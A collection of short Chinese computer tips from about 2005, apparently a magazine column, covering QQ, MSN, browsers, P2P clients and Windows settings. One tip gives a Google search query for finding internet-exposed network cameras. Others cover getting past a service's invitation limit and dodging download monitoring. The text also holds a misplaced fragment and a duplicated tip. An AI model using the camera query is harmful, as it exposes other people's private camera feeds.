Windows 2000/XP对一个网卡设置多个IP地址的操作方法很简单，这里主要是针对Windows 98/Me。网上曾有技巧是通过修改注册表来为一个网卡配置多个IP地址，虽然可以行，但对注册表不熟悉的用户可能就有点麻烦了，甚至可能会不小心将注册表弄坏的。下面教大家一个操作更为简单的方法。右击桌面上的“网上邻居”并选择“属性”，进入网络配置，双击“TCP/IP”一项可以设置一个IP。点“添加→协议”，再选择“MICROSOFT”中的“TCP/IP协议”。这样，我们的网络配置框中就有两个TCP/IP协议了，再双击这个TCP/IP协议就可以设置第二个IP地址了。再次添加TCP/IP协议，可以设置更多的IP。

## 谁连上了我的电脑

当你发现系统托盘右下角的“我的连接”灯一直亮着，而又没有访问别人，硬盘灯在狂闪不已，那么，很可能有人正在享受你的共享资源。知道有人访问我，怎么知道是谁呢？访问的文件又是哪一个呢？打开“控制面板→管理工具→计算机管理→系统工具→共享文件夹”。或者用快捷的打开方式：“开始→运行→fsmgmt.msc”。其中的“共享”会列出你的所有共享资源；“会话”：告诉你哪几台计算机连上了你，并显示来客的IP和计算机名；“打开的文件”：告诉你哪台计算机正在读取哪个文件。在这里，你可以随时中断和他的会话，使他暂时失去连接。

## 在TelTel中加好友的经验

《电脑爱好者》曾介绍过TelTel免费拨打电话软件的使用方法。经过笔者自己摸索，终于找出一种最简便的加好友方法。首先，在TelTel中登录你已经申请的账号，然后在加好友的对话框中选择“通过网络即时通信工具”一项，把地址复制到你的QQ上，发送给你的另一个QQ（你应该有两个以上的QQ吧？）。这时，你先不要急于点击另一个QQ中的地址，而应先把IE“属性/常规”下的“cookie”删除。然后再点击链接。这时IE中显示的是TelTel的主页。你必须从这里下载一次TelTel软件，下载之前应先退出原账号。下载安装完后，就可以注册一个账号。申请成功后，新账号和原账号便互加对方为好友。只要再重复以上的步骤，你就可以轻易地加入3个好友。

## 本地设置QQ排名

大家都知道通过在自己QQ名字前加“”可以提高自己在QQ中的排名，使得自己更靠前。如果你的QQ中有一个非常好的朋友，希望他的排名靠前，但他并没有使用诸如的方法。遇到这种情况可以在本地手动提高他的排名，方法是在他的名字上点鼠标右键选择“改名”，在用户名处输入加上他名。这样该好友的排名就会靠前。当然这样的设置只对本地电脑有效，如果你换了一个机器排名会恢复到修改前的顺序。

## 免费的外语老师

当遇到不认识的外文时怎么办？也许英文我们可以通过翻译软件来解决，但其他文字呢？今天为大家介绍一个免费外语老师，首先要通过在浏览器中输入http://www.worldlingo.com/wl/translate这个地址来访问它。它可以翻译包括英法俄日、西班牙等等多国语言，对于常见的单词及句子翻译得也非常准确。

## QQ号码永不保存

QQ2004中增加了多种登录模式，方便我们在不同场合使用，在公共场所电脑上使用QQ时（如办公室多人合用一台电脑），我们往往选择“网吧模式”，这样在退出QQ时选择“删除”则会删除自己的聊天记录。更重要的是自己的QQ号码不会保存在本地机器上，这样QQ号码就不会再出现在QQ的登录框中，以免被别人看到，胡乱加自己为好友。可是，一次选择“网吧模式”，一次退出时选择“删除”，真够麻烦的。想要找到一劳永逸的方法？在QQ安装目录下（一般为C:\Program Files\Tencent\QQ）找到“LoginUinList.DAT”文件，右击选择“属性”，在属性对话框中勾选“只读”属性，这样QQ就无法将用户号码信息写入此文件了。OK，你的QQ号码再也不会出现在QQ登录框中了。

## Yahoo! ID巧查询

Yahoo!的1GB邮箱是全国较先推出的GB级邮箱，但当我们在注册新用户时，会发现由于Yahoo!的ID是一经注册，永不回收。因此，名称资源已经比较贫瘠了。我上次在注册时试了N*100多次也没有找到合适的名字。其实，Yahoo!有一个ID Helper，通过它可以轻而易举地获取满足自己要求的Yahoo! ID。登录http://edit.bjs.yahoo.com/config/ID_check，在左侧三个文本框中输入你期望的ID组成部分，然后，就让Yahoo!为你挑选一个属于你的Yahoo! ID吧。

## 从右键菜单把文件上传到QQ网络硬盘

QQ网络硬盘功能很实用，特别适合在两个地方使用电脑的用户（比如网吧和家中）传递文件，当然，也可以把文件共享给别人。经常使用网络硬盘的用户可能会注意到：有时在资源管理器中右键单击一个文件或文件夹后，鼠标右键中会多出一项“上传到QQ网络硬盘”，点击后就能方便地传到QQ网络硬盘。但有时你会发现右键中这一项并不存在，是什么原因呢？原来，要使用此功能，必须在启动QQ之后，再按下面板左侧的网络硬盘标签，鼠标右键菜单中才会出现相应选项。

搜索station.asp、http://www.036.com.cn/等在线查询。另外，也可以使用一些专门的软件，比如：“极品时刻表”（下载地址：http://www.lpskb.com/down/lpskb.rar）

## 快速找出微软站点所下载文件的真实地址

在微软站点所下载的文件都有一个通性，就是旁边都有一个“下载”或“Download”的按钮，而在该按钮的属性中并没有直接链接到真实的下载地址，不过我们可以将“下载”或“Download”做为关键字（中文就用“下载”，其他语言则相对应即可），然后打开下载页面的源码（右键选择“查看源文件”即可），然后用Ctrl + F输入关键字，在关键字旁边一般都能看到“href='http://download.microsoft.com/xxx/xxx.exe'”，其中http部分就是真实地址了。

## 自动载入FlashFXP下载队列

每次启动FlashFXP都要手动载入队列并传送，浪费了不少操作，其实我们可以让FlashFXP队列自动载入。方法是在FlashFXP中将队列添加完毕，接下来在FlashFXP的安装目录下找到相应的FQF文件，该文件就是保存的队列文件。以d:\FlashFXP\041004.fqf文件为例，在“开始→运行”中输入“d:\FlashFXP\FlashFXP.exe -tray 041004.fqf”启动FlashFXP，这样就实现了自动加载041004.fqf队列文件，从而省去了手工载入队列的步骤。

## 找出“阻止发件人名单”中的电子邮箱

有些朋友为了防止垃圾邮件，在OE的“阻止发件人名单”中收集了很多发送垃圾邮件的电子邮箱。但有时会不小心把自己的好友加进去，那就麻烦了，因为“阻止发件人名单”里面没有提供排序或者查找电子邮箱的功能，所以只能一个个查找，不过现在有了一个简单的方法。在OE中点击菜单“工具→邮件规则→阻止发件人名单”，在“阻止发件人”标签下点击“添加”按钮来输入好友的电子邮箱，点击“确定”后会弹出一个提醒对话框，提示该电子邮件地址已经存在于列表中，是否要进行替换，我们点击“是”按钮，这时就可以在邮箱列表中看见好友的那个电子邮箱被高亮显示，最后选中该邮箱点击右面的“删除”按钮，就可以从“阻止发件人名单”中去除了。

## 在Maxthon中快速切换标签

Maxthon的多标签页浏览是最让网友们津津乐道的功能，可有时面对自己打开的一大堆标签页，想随心切换一下当前浏览的网页是件比较麻烦的事，难道非得用鼠标一一点击么？许多人都知道，可以利用“CTRL+1”、“CTRL+2”等快捷键来切换第一、第二标签页等，但如果你的标签页超过了10个，怎么办？其实，将你的鼠标移动到Maxthon的标签栏，然后再向上或向下滚动鼠标的中键滚轮，你就可以快速切换当前浏览的标签页了。

## 在MSN中批量添加好友

随着MSN的流行，现在大家都将MSN做为自己的办公常用软件，可MSN添加好友的过程比较繁琐，如果刚接到一个新的工程项目，而需要将此项目中所有合作伙伴添加到自己好友中，显然很麻烦。现在提供一下简单的批量添加MSN好友的方法。在MSN Messenger程序窗口中依次点击“联系人→保存联系人名单”，将现有的联系人导出为一个CTT文件，然后找到此文件，再按住shift键右击此文件，选择“打开方式”，从中选择“记事本”软件将其打开后，发现格式如下：

```
<contact>user1@cfan.com</contact>
<contact>user2@cfan.com</contact>
<contact>user3@cfan.com</contact>
......
```

将其中的“user1、user2、user3”等地址修改成欲填加的好友的邮箱地址如“user4@cfan.com”，然后保存。最后在 MSN 界面中选择“联系人→从已保存的文件中导入联系人”，选择刚才修改保存的 CTT 文件打开便可顺利完成添加过程。
（木头人）

## 出门不用愁 快速查询火车车次和路线

坐火车出行第一件事就是确定应该坐哪次列车，首先你可以通过http://www.5179.com/tr/chaxun1.htm、http://train.tielu.org/等在线查询。另外，也可以使用一些专门的软件，比如：“极品时刻表”（下载地址：http://www.lpskb.com/down/lpskb.rar）

## 让Firefox运指如飞

在Firefox地址栏中输入“about:config”后回车，调整以下值即可提高 Firefox 启动和网页载入速度，如果没有出现下述值，则自行新建一个：

```
network.http.pipelining.maxrequests:30,
network.http.proxy.pipelining:true,
network.http.max-connections:48,
network.http.pipelining:true,
network.http.max-persistent-connections-per-proxy:12,
network.http.max-connections-per-server:24,
browser.cache.memory.capacity:16000。
```

设置完毕后重新启动 Firefox，在其桌面快捷方式上点击右键，选择“属性”菜单，为其加上一个运行参数：“/Prefetch:1”。

## 聊天背景一拖即换

MSN 7.0 允许我们自定义聊天背景，可以与好友一起分享漂亮图片，但每次设置都非常复杂，其实我们只要打开聊天窗口，然后把想做背景的图片直接拖到聊天窗口上，就可以起到更换聊天背景的作用了。需要注意的是，在拖动图片的时候，不要把图片拖到消息发送窗口中，不然图片就会直接发送给好友了。
（吕学华）

## 个性头像轻松设置

在 MSN 7.0 中我们也可以自定义个性头像，在自定义头像的时候，要经过复杂的浏览本地硬盘、选择图片等操作，其实你也可以直接把喜欢的图片拖到 MSN 主窗口右下角显示自己图片位置，这样也可以起到更换头像的方法。
（吕学华）

## 宽带用户提高网络下载速度

下载速度的大小主要取决于网络带宽以及下载文件所在站点的速度，不过对于那些网络带宽达到 2M 以上的用户可以使用如下方法来明显提高下载速度：

运行“Regedit”命令打开注册表编辑器，定位到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters]，新建一个名为“TcpWindowSize”的dword值，将其值设置为8760(如果你使用56Kpbs Modem)或者70080(如果你使用大于等于512Kbps带宽的ADSL)，如此设置的意义在于增大Windows的TCP堆栈。不过该值建议不要设置太大，这样可能会引起包丢失的问题。该技巧适用于Windows 2000/XP/2003。对于网络速度的优化，仅此键值有明显效果，其他设置几乎没有优化效果，所以建议大家不要使用所谓的“网速优化软件”。

## 内网用Real Player在线看大片

当用IE打开一些在线播放网站的Real格式的电影时，通常会自动采用内嵌Real的播放。大部分网站都会对地址进行加密，而且地址很难查到，直接用Real Player播放有些困难。另外，有些内网用必须用代理才能观看，而IE的代理并不能和Real Player有效地结合起来，怎么办呢？

Real Player除了是播放器，它其实还是一个IE内核的浏览器，可以在Real Player的浏览器中添加代理，解决IE代理看在线电影的问题。它比IE浏览要好用不少，如果你用IE不能看，不妨试试Real Player的浏览器功能。
(softer)

## 让腾讯公司替你“封杀”

随着信息传播方式的多样性，有一小部分人通过 QQ 发布一些违反国家政策的信息，以往我们碰到这些人只能通过将其拉入黑名单来处理，现在你只需要将给你发信息的QQ号告诉123110这个QQ号，并提供相应的证明，腾讯公司即可“封杀”此号。
（小小牛）

## 摄像头搜索更准确

上期我们曾经介绍过用 Google 搜索摄像头的方法。如果用 inurl:"viewerframe?mode=" and intitle:"NetWork Camera" 进行搜索，比只用 inurl:"viewerframe?mode=" 搜索网络摄像头更准确！否则搜索到的大多是介绍该技巧的文章。
(DCD)

## 在 QQ 网络硬盘中快速上传下载

进入 QQ 网络硬盘，上传文件时，先在 Windows 界面中选中需要上传的文件，按“Ctrl+C”组合键，然后回到QQ网络硬盘面板中，选中需要储存的文件夹，按下“Ctrl+V”键，系统会自动完成上传；下载时也是一样，先在网络硬盘界面中选中下载文件，按“Ctrl+C”，随后到Windows界面中，按“Ctrl+V”键即可。
（王勇）

## 随心所欲领养宠物

如今腾讯公司准备在新的 QQ2005 版本中加入电子宠物功能，由于目前没有对外开放下载，许多想领养宠物的朋友可以用下列方法领养宠物。在QQ2004版本界面的最下方，点击人民币符号，在弹出的Q币账户信息窗口中，右键选择“账户信息”菜单中的属性，将属性窗口中的clientkey=后面那串字符串复制下来，放在“http://pet.client.qq.com/cgi-bin/petcenter.cgi?qqsign=”之后，输入到地址栏中，就可以领养宠物了。
（小小牛）

## 在百度下吧中妙搜所有电影

百度下吧是一款优秀的BT共享下载软件，它依靠百度强大的搜索引擎技术，并且结合了当前流行的BT多源下载。百度并不像BT下载联盟那样提供文件下载列表供我们选择种子，所以许多人就为电影的搜索关键字发愁，总不能让网友们把所有电影的名称都记下来吧。其实我们可以在浏览器中键入“http://x.baidu.com”打开百度下吧搜索主页，再以“RMVB、RM”等常见电影后缀字为关键字进行搜索，就可以得到一份详尽的电影下载列表了，点击链接就可随心下载。
（闻艳力）

## 打开 Maxthon 快捷组中的单个网页

使用Maxthon浏览器的“快捷组”可以一步到位地同时打开多个网页，比起IE收藏夹来更方便快捷。但有时在使用中，我们只需要打开某个快捷组里的某一个网页，这时在“快捷组”中单击快捷组名称，就会将此快捷组中所有网页打开，浪费带宽还需要手动关闭无用的网页，真是伤脑筋。无意中，我发现在某个快捷组名称上点击鼠标右键，这时就会自动列出此Maxthon快捷组中的每个网页，再点击打开需要的网页就可以了。
（闻艳力）

## QQ中快速添加多人聊天

使用QQ聊天，许多时候我们需要多个好友一起来解决一下问题，如果使用群功能则可能让不相干的人看到我们的聊天信息，这时临时增开一个“多人对话”显得十分必要，如果使用QQ2004II，一般的方法是点击“腾讯服务”栏按钮再选择“邀请好友加入聊天”，还要在“添加联系人”对话框中勾选自己的好友，非常麻烦。其实，假如需要同时与A、B、C三人临时聊天，我们可以双击A的头像打开聊天对话框，再在“QQ好友”栏中用鼠标将B和C拖入当前聊天对话框，系统就会自动将它们添加进来了。
（闻艳力）

## 解决MSN 7 Beta版无法登录问题

有的朋友会遇到安装MSN 7 Beta版后无法正常登录的问题，出现“抱歉，您现在无法登录到.NET Messenger Service。请稍后再试。80072efd”的提示，遇到这种情况，我们可以采用下面介绍的方法来解决：选择工具→选项→连接→高级设置，将里面所有服务器地址去掉，保证空白即可。确定后就可以正常登录MSN了。
（阮征）

## 彻底刷新网页的方法

在IE中按F5可以刷新网页，但是有时候不能彻底刷新，仍然有很多旧信息保留在页面中，这时候可以使用Ctrl+F5进行彻底刷新。

## 取消QQ手机绑定

很多朋友都将自己的手机号码和QQ进行了绑定，不过因为一些原因(例如手机丢失)，QQ号码更换或者担心QQ随便收取费用想取消手机的绑定，这时我们可以使用以下方法来解决：中国移动的用户发送QXBD到1700，中国联通的用户发送QXBD到9777，发送短信后就会收到提示信息说明你已经取消了QQ与手机的绑定。担心银子被随意收取的朋友可以马上用这个方法消除你的顾虑。

## 为什么ZIP附件变成ZM9

有些朋友在接收邮件时会发现，别人发来的附件本来是ZIP压缩包，可是在Outlook中却显示的是ZM9、Z19等未知扩展名。其实这是因为安装了防火墙软件ZoneAlarm的缘故，该软件能够对邮件的附件进行防护，将那些可能有害的附件(比如：VBS、BAT、ZIP等扩展名的文件)修改扩展名，起到保护作用。如果你确认某个附件没有问题，并通过了杀毒软件的验证，可以在邮件中双击附件，ZoneAlarm会弹出提示框，直接选择“另存为”即可按正常扩展名保存了。
（呆瓜）

## 挽救无法合并的BT文件

Shareaza由于可以同时支持Torrent、eDonkey2000等四种下载协议，因此一直受到广大P2P爱好者的青睐。但在使用过程中，我们却遇到这种情况：当某个Torrent文件中包含了若干文件或几个目录，在没有下载完成时，即使已经完成了99%，在Shareaza的下载目录下也无法看到已下载的文件，如果碰巧已经没有种子了，则无法打开已下载的影音文件。不过，我们可以使用以下方法来达到目的：在任务栏中右击下载任务，依次选择“高级→高级编辑”，然后在窗口选择“假设文件100%完整并重检”，这时候在下载目录中可以看到没有下载完毕的全部文件，试试用Windows Media Player等软件打开就能进行欣赏了。
（自由人）

## 在浩方中快速追踪好友

众所周知，在浩方对战平台上，要想与自己的好友一起对战，必须得进同一房间。许多朋友为了进同一房间，只好在QQ上不断地向自己好友发信息“我在某某房间。”其实，远不必如此麻烦，只需双击自己浩方好友，打开聊天窗口，再点击“追踪好友”按钮就能进入好友所在的房间了。
（木头人）

## 让Edonkey摆脱监视在众多的P2P软件中，由于Edonkey软件拥有庞大的用户群体和丰富的资源，因此得到了广大网友的爱戴，不过近来因为某些原因，一些国家或地区的有关部门开始对使用Edonkey软件下载的用户进行了追踪监视，使得用户的个人隐私遭到严重威胁，现在可以通过以下方法来摆脱被监视的危险：
首先在Edonkey或eMule软件的服务器列表中删除所有包含“tribe”字符的服务器地址，然后打开软件的“选项”设置窗口，把“服务器”功能标签下的部分选项前清空，保存退出后重新启动软件就可以了。
(自由人)

## 快速显示MSN的菜单

使用MSN7.0聊天的朋友为了美观，往往都会使用漂亮的简洁模式，将边框隐藏的确挺酷的，可有时又会用到MSN的菜单功能，你不得不用鼠标点击右上角的扩展按钮，比较麻烦。其实只需要随手按下键盘上的Alt键，MSN7.0的菜单栏就会出现了。
(木头人)

## 解决QQ会员复制好友的分组问题

几天前抛弃了用了快一年的9位QQ号，换了个6位的会员号，通过会员的高级功能“克隆好友”，将9位QQ号的好友列表复制到了6位QQ号里。但登录6位QQ里一看，所有好友都列在“我的好友”组里，原来的分组都没有了。研究了半天，发现在两个好友相同的QQ之间实现复制分组，还是可以用手工解决的。每个在本地登录过的QQ号，都会产生一个以QQ号为文件夹名的子目录，每个子目录里都有一个user.db文件。在user.db文件中就记录了你所使用的QQ中的好友名单、分组等信息。将9位QQ号文件夹中的user.db复制，覆盖掉6位QQ号子目录中的user.db。再登录看看，原来的分组又回来了吧。要提醒大家注意的是，这个方法只在两个好友名单相同的QQ之间适用，否则不同的好友名单会在QQ中产生冲突。
(十三娘)

## 我的地址栏可以搜索MP3

喜欢音乐的朋友经常会网上搜索歌曲，每次为了寻找一首歌曲而到处奔波。其实，只要安装了上网助手2005(下载地址:http://dl.3721.net/download/assist4.exe)，就不用再为一首歌曲而到处奔波了。确保上网助手已经安装到系统中，然后在IE地址栏中单击“上网助手”按钮右侧的黑色下拉三角，在弹出的下拉菜单中选择“地址栏搜索→MP3搜索”。这样设置就确保了地址栏中可以直接输入MP3音乐的歌曲名来搜索对应的歌曲了。你只要打开IE，在地址栏中直接输入你想要的歌曲名(例如“老鼠爱大米”)，然后回车，直接点击搜索结果就可以了。
(呆瓜)

## QQ隐藏又有新方法

我们在用QQ聊天时，某些时候不想被人看到，可以用以下新的方法:点击主面板右上方加号按钮，在下拉菜单中选择“界面隐藏”，这时QQ界面是透明的，打开聊天窗口聊天时，它也是处于透明状态的，这样离你稍远的人是看不到你在聊天的了，并且任务栏中的QQ图标也是隐藏的。这样就达到聊天而不为人所知了。同时，QQ还给我们一个自由选择“透明度”的功能:还是点击“加号”按钮，选择“透明度”选项中的自定义界面的透明度，它可以从0%调整到80%，最大值是和界面隐藏的效果一样，这样就达到了真正的隐藏聊天了。
(候中)

## 下载软件直接进入最终页面

当你下载软件时，总要经过多次点击才能找到最终的下载页面，现在你可以直接找到下载页面。如果系统中没有安装上网助手，请先到http://dl.3721.net/download/assist4.exe下载，将其安装到系统中，重启IE后就可以直接在地址栏中输入想要下载的软件。例如，你现在要想下载MSN Messenger，只要在地址栏中敲入“MSN Messenger下载”回车，系统会自动打开国内知名的软件下载站——华军软件园网站，并且直接定位到你要下载的软件页面，这个技巧对于大多数主流的软件都奏效。注意:要下载的软件名称与“下载”之间不能留有空格。
(呆瓜)

## QQ传输文件再省一步

大家都知道，用QQ传送文件有一个方便的办法，就是打开和好友的聊天窗口，将要传输的文件拖到窗口中即可。不过笔者在使用中又发现了更加简单的方法:拖动你要传输的文件直接拉到QQ好友面板中的对方头像处，松开鼠标后文件就会自动传送给好友，省去了我们打开好友聊天窗口的操作。
(阮征)

## 给QQ好友排排队

QQ好友如果很多，有些好友是我们需要经常与之联系的，但往往他们在我们的QQ好友中排名却是最后，要想找到这位好友，每次都得从长长的好友列表中去搜寻他。如果将他的排名提前，找他的话就非常方便了。右击这位好友，选择弹出的快捷菜单中的“改名”，在打开的“查看用户信息”窗口中的“用户名称”框中将其昵称前添加一个小写字母“a”，单击“修改”按钮即可。按同样的方法可以将你需要置前的好友移动到好友列表的前端。如果要排序的话，可以给不同用户名前加上数字序号。另外，QQ面板上还有“最近联系人”项，单击它即可快速找到你经常聊天的好友。
(呆瓜)

## 去除KV2005的在线升级广告

KV2005进行在线升级时，经常会在升级界面中出现一些广告，尽管不会影响到升级的操作，但始终觉得有点不舒服。有没有办法去除这些讨厌的广告呢？答案是肯定的，而且操作起来十分简单:在正式升级前，先用鼠标点击菜单“查看→界面语言”并选择为“English”，然后再点击“Update”按钮进行正常升级，烦人的广告就消失得无影无踪了。注意:升级完成后按上述方法，重新更改为“简体中文”即可恢复为本来面目。
(自由人)

## 让Firefox摆脱Tab插件的束缚

Firefox是一个多页面的浏览器，但很多时候还是需要配合Tab插件一起使用。不过很多Tab插件在使用过程却偶而会出现不稳定的现象，从而造成Firefox自动关闭。现在我们可以使用以下方法来让Firefox摆脱Tab插件的束缚，使Firefox的开启速度更快捷，性能更加稳定:
首先在Firefox的地址栏中输入“about:config”打开设置界面，接着在过滤器中分别输入“browser.tabs.showsinglewindowmodeprefs”，并把键值设置为“True”(表示“强制打开新标签页而不是新窗口打开”)，输入“browser.tabs.loaddivertedinbackground”，设置键值为“True”(在后台打开新标签，设置为“False”则表示在前台打开新标签)，保存退出后重启Firefox就可以了。
(自由人)

## 快速备份网址

上网浏览时碰到喜欢的网址自然要记下，一般大家都是按下Ctrl + D将它收录到收藏夹中，时间久了，收藏夹内容多了，寻找也挺麻烦。收藏夹很多人容易忽视，容易在重装系统的时候被误删除。这里有个省事的方法:第一步:遇到喜欢的网址，只要按住地址栏中的网页图标将它拖到桌面上，就会自然生成一个网页快捷方式，还会自动生成网页名称。第二步:打开QQ网络硬盘，再将此快捷方式拖放保存到网络硬盘中，这样以后我们到朋友家或网吧，只要在QQ网络硬盘中双击此快捷方式就打开自己的网页了，是不是很方便？
(木头人)

## Maxthon也可浏览RSS新闻

RSS新闻以其方便、快捷的特点深受广大网友的喜爱，可以通过RSS阅读器来浏览各大网站新闻。其实，不用安装RSS阅读器，使用Maxthon浏览器也可以阅读RSS新闻。打开最新版的Maxthon浏览器，依次点击“查看→侧边栏→RSS新闻链接”，这时就可以打开Maxthon侧边栏的RSS新闻阅读功能，在这里可以添加分类与RSS新闻链接。
(蓝色理想)

## QQ自定义表情的另类备份方法

QQ自定义表情为聊天带来了极大的乐趣，为防止重装系统等原因造成的QQ自定义表情丢失，可以把QQ自定义表情备份下来。打开QQ安装目录，找到你QQ号的文件夹，在这里面有一个Customface的文件夹，打开你会发现，所有的QQ自定义表情全在这里面，只要对这个文件夹进行备份就可以了。

## 难道QQ要永远透明了吗？

看了《电脑爱好者》第7期《隐身好友 看我的如来神掌！》一文，真让我害怕起来。万一自己哪天被朋友发现隐身在线不理人家就糗大了，有没有办法让我隐身而不被人发现呢？经过一番研究，我发现有两个方法:1.同样使用LumaQQ来隐身;2.使用最新的QQ2005Beta1版，也可以躲开LumaQQ的如来神掌。
(木头人)

## 解决Google快照无法显示的问题

大家都遇到过用Google搜索出来的页面却无法正常打开，该页无法正常显示。这时候大家都采用Google快照的方式来浏览，不过有的时候快照也无法正常显示信息，这时大家可以尝试访问http://google.7766.org/这个地址，你会发现通过这个地址搜索出来的快照内容都可以正常显示了。
(Softer)

## 快速升级Outlook2003反垃圾邮件能力

微软在Outlook 2003中提供了反垃圾邮件功能，并且定期对筛选数据库进行更新，最近微软又发布了最新的更新，请到http://download.microsoft.com/download/5/7/b/57b01978-c6ea-45e1-98f9-d9e3baea02dc/office2003-kb892236-fullfile-chs.exe下载。

## QQ中对个别好友不隐身

许多朋友在使用QQ时，为避免一些无聊的骚扰会选择将自己的QQ隐身，可是这样一来，一部分确实有急事的网友看到你QQ不在线可能会不向你发送某些重要的信息(比如编辑向作者约一篇很急的稿子，往往会选择在线等选题的作者)，怎么样才能保证自己的QQ对他人都隐身而对个别重要好友却现身呢？在腾讯QQ中是没有办法的，但我们可以切换到腾讯TM:在QQ中执行“QQ菜单→一键切换到TM”或用TM直接登录QQ，然后在TM中右击想进行设置的QQ好友，在弹出的菜单中选择执行最下方的“隐身状态下对该联系人可见”，稍等片刻会弹出“服务器已经接受了您的请求”对话框，确定便可。今后再在QQ或TM上隐身时，此好友依然会看到你，就不会错过任何重要信息了。
提示:已经在TM3.0 Build0126版本中试验通过，3.0版本之前的TM可能没有此功能。
(木头人)

## 揪出最新版QQ的邮箱客户端

笔者一直使用QQ的网络邮箱收发邮件，只要点击QQ面板上的邮件标志，就可以打开邮箱客户端发送邮件。但笔者升级到最新版的QQ2005Beta1后，再次点击邮件标志后，发现打开的不是QQ邮箱客户端，而是WEB版的QQ邮箱，这样操作起来不是很方便，难道升级到最新版的QQ后就不能再使用QQ邮箱客户端发送邮件了？其实还可以依次点击“菜单→工具→QQ邮箱客户端”来打开熟悉的QQ邮箱客户端，再使用它来收发邮件。
(蓝色理想)

## 破解加密网页新招数

网上有不少制作精美的网页，对于正在学习编写网页的朋友来说具有十分难得的参考价值。不过出于各种原因，部分网页对网页源代码进行加密，使得我们无法正常阅读，实在是有点遗憾，现在我们可以使用以下方法来破解：
当我们发现因为加密而无法查看源代码时可以在当前网页地址栏中输入：
```
javascript:s=document.documentElement.outerHTML;document.write('<body></body>');document.body.innerText=s;
```
很快我们就能看到网页的源代码了。
(自由人)

## 挽救无法合并的BT文件

Shareaza由于可以同时支持Torrent、eDonkey2000等四种下载协议，因此一直受到广大P2P爱好者的青睐。但在使用过程中，我们却遇到这种情况:当某个Torrent文件中包含了若干文件或几个目录，在没有下载完成时，即使已经完成了99%，在Shareaza的下载目录下也无法看到已下载的文件，如果碰巧已经没有种子了，则无法打开已下载的影音文件。不过，我们仍然可以使用以下方法来达到目的:在任务栏中右击下载任务，依次选择“高级→高级编辑”，然后在窗口选择“假设文件100%完整并重检”，这时候在下载目录可以看到没有下载完毕的全部文件，试试用Windows Media Player等软件打开就能进行欣赏了。
(小明)

## 打破Wallop邀请人数的限制

Wallop是微软新推出的社会性网络(SNS)服务，它能够让用户间互相分享照片、音乐及Blog，可惜注册时必须得到邀请后才能加入，而且邀请权的数量有一定的限制，经过一段时间的摸索，本人找出了解除邀请人数限制的方法:登录Wallop后，在网页右上角的搜索选题选择“find a person”，然后输入一个存在的名字并搜索，结果出现后，点击右下角的“Add a new person”，然后再输入好友的名字和邮箱就可以了。
(自由人)

## 巧解IE储存图片之谜

以前，使用IE都很正常，不过最近发现了一个奇怪现象，每当右击网页中的图片，以“另存为”命令保存图片时，不论原来的图片是什么格式都会自动变为BMP后缀名，实在百思不解。经过一番摸索，发现可以用以下方法解决:打开IE的临时文件夹(Temporary Internet Files)，然后进行清空，重启IE即可。
(白云)

## 巧妙查询你是否为对方好友

大家都知道使用QQ进行交流已经是广大网民的家常便饭，很多人都想知道自己是否被别人(特别是MM)加为好友，如何查询呢？其实，有两个判别方法:第一种，你先将对方从你的好友名单里删除，当对方上线后该好友出现在你的陌生人名单中，说明对方已经将你加为了好友;另一种方法，在不删除对方的情况下，在对方上线时能够显示某某已经上线的提示，有了这个提示也说明对方把你加为了好友。
(Softer)

## 巧妙导出QQ邮箱中的最近联系人

QQ邮箱的最近联系人功能可以很方便地发送电子邮件。但到了别的电脑登录QQ邮件，就看不到最近联系人，这怎么办呢？其实，可以通过其他方法实现出联系人地址的目的。打开QQ安装目录，你会发现一个以你QQ号命名的文件夹，找到里面一个名为QQMailSetting.dat的文件，把它复制出来，然后传到网络硬盘中，如果想在别的机器上查看最近联系人地址，只要把这个文件下载回来，复制到你QQ号文件夹中，再次打开QQ客户端，就可以看到最近联系人了。同样，也可以把这个文件复制到别的QQ号文件夹中，就可以实现与其他QQ号共享最近联系人目的。
(笨笨虎)

## 免费笑话送给你

当你的QQ窗口中没有好友可聊时，如果能免费欣赏到逗人开怀的笑话是个不错的选择。操作步骤很简单:首先在QQ控制面板左侧选择“互动空间”，然后双击其中的“QQ语音剧场”，在弹出的聊天窗口中单击“进入主菜单”项，QQ马上列出丰富的娱乐资讯供选择，相声、笑话、恐怖故事等。用鼠标左键单击其中“2.极品笑话”就可以直接收听令人捧腹的笑话。如果对其功能还不太熟悉，直接点击“7”就可以查看“使用帮助”。同时，QQ提供了“免费推荐给好友”的功能，填写好友的手机号码和自己的签名后，就可以和好友一起共享欢乐了。
(我思故我在)

## 用POP3接收Yahoo邮箱

目前，Yahoo!已经开放了远程管理邮箱的功能，你可以使用以下地址收发邮件了。
接收邮件(POP3)服务器：pop.mail.yahoo.com.cn
发送邮件(SMTP)服务器：smtp.mail.yahoo.com.cn
这样，我们就可以通过Foxmail或Outlook轻松管理Yahoo邮箱了。
(阮征)

## 与烦人的QQ宠物说再见

新版QQ添加了QQ宠物功能，不过很多人都不喜欢。另外，领养截止日期一过，每次登录QQ都会弹出一个烦人的QQ宠物窗口，即使把连接宠物功能禁用了，每次启动仍会出现无法连接宠物的提示。有没有办法彻底和QQ宠物说再见呢？其实我们只要到QQ安装目录下将QQPet.dll，QQPetDazzle.exe和QQPetProxy.exe三个文件删除即可。
(Softer)

## 加自己为QQ好友的新方法

以前，要把自己加为好友可以通过把自己加入黑名单，再拖到好友栏中来实现。不过这个方法在新版的QQ中已经不能使用了，现在出来一个新的添加方法，操作起来也比较简单。
首先登录QQ，打开QQ聊天室，随便进入一个聊天房间，接着在左面的聊天成员列表中选择自己的QQ号，然后点击下面的第二个企鹅加号的按钮，这时就会听见系统提示声，按提示把自己加入好友就可以了。
(Jay)

## 取消浩方窗口人满等待提示

新版浩方在进入房间如果出现人满时，弹出来的对话框必须等3秒左右按才有效，不然等于没有按，按Esc键关闭也无效了。其实可以通过修改老版浩方的update.ini文件解决这个问题。方法是找到老版浩方对战平台安装或解压后，找到要修改的Update.ini，修改[System]字段里面的Version，把等号后面的版本改得比自动更新更高的版本就行了。例如Version=4.5.0，保存后运行浩方，就不会出现提示要求更新版本的提示了，而且人满时也不会弹出讨厌的对话框了。
(Softer)

## Yahoo!、Google一起用

很多朋友既在用Google，又在用Yahoo!的搜索引擎，它们各有千秋。通过一个名为YahGoohoo!gle的站点(很怪异的名字，把Google和Yahoo!拆开重新组合了)，可以搜索获得两个站点的搜索结果。其地址为:http://www.yagoohoo!gle.com/，输入关键字并单击“Search”。你能在左右两边看到两个不同的窗口，左边是Google搜索结果，右边则是Yahoo!的，非常方便。
(SC)

## 批量下载QQ网络硬盘文件

